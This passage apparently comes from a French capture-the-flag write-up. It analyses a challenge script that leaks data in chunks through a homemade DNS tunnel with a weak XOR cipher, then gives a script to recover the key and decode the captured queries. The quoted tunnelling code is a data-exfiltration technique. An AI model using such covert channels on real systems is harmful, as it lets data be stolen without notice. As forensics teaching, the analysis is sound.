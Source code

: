 ```python
def send_data(s):
    #because I love globals
    global n
    n = n+1
    length = random.randint(4,11)
    # If we send more bytes we can recover if we loose some packets?
    redundancy = random.randint(2,16)
    chunk = data[s:s+length+redundancy].decode("utf-8")
    chunk = "%04d%s"%(s,chunk)
    print("%04d packet --> %s.local.tux" % (n,chunk))
    blob = encrypt(chunk)
    udp_secure_tunneling(blob)
    return s + length

cursor = 0
n=0
while cursor<len(data):
    cursor = send_data(cursor)

#Is it ok?
```

On importe en local ce script pour comprendre son fonctionnement.

La méthode de chiffrement est un simple XOR:

```python
aes = ord(l[i]) ^ key
```

On remarque aussi que la clef est transmise en claire avec les données chiffrées dans la fonction "encrypt" grâce à la ligne suivante:

```python
output = hex(key)[2:].zfill(2)
```

Cette clef est le premier octet envoyé lors d'une communication en utilisant ce tunnel DNS maison.

### II.2. Fonction de déchiffrement

Il nous suffit maintenant de créer un script qui va prendre le premier octet de données comme clef et qui va nous permettre de déchiffrer le contenu du tunnel DNS comme ci-dessous:

```python
f = open("dns.txt", "r")
index_str = ""
index = 0
length = 0
for x in f:
    key = int(x[0:2], 16)
    pos = length + index
    index_str = ""
    for i in range(2, 10, 2):
        index_str += chr(int(x[i:i+2], 16) ^ key)
    index = int(index_str)
    text = ""
    for i in range(10 + 2*(pos-index) , len(x)-1, 2):
        text += chr(int(x[i:i+2], 16) ^ key)
        length = len(text) +pos - index
    print(text, end='')
print("\n")
```
